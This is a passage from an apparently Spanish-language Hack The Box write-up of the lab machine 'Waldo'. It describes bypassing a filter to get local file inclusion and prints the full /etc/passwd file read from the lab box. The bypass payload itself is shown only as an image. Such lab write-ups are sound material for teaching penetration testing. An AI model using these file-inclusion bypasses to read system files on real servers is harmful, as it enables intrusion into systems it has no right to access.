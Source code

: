 No, tampoco funciona, se debe aplicar otro filtro. Probemos con el mismo bypass que utilizamos para el directory listing, a ver si funciona.

![](/assets/img/HTB/writeup-waldo/lfi-etc-passwd.png) _**Figure 13**: Bypass del filtro._

Vemos que funcionó correctamente y obtuvimos la lectura del archivo **/etc/passwd**, pero se ve un poco desordenado.

Vamos a separar mejor el salto de línea.

```bash
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/bin/sh
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/spool/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
postgres:x:70:70::/var/lib/postgresql:/bin/sh
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/home/nobody:/bin/sh
nginx:x:100:101:nginx:/var/lib/nginx:/sbin/nologin
```
{: file='/etc/passwd'}
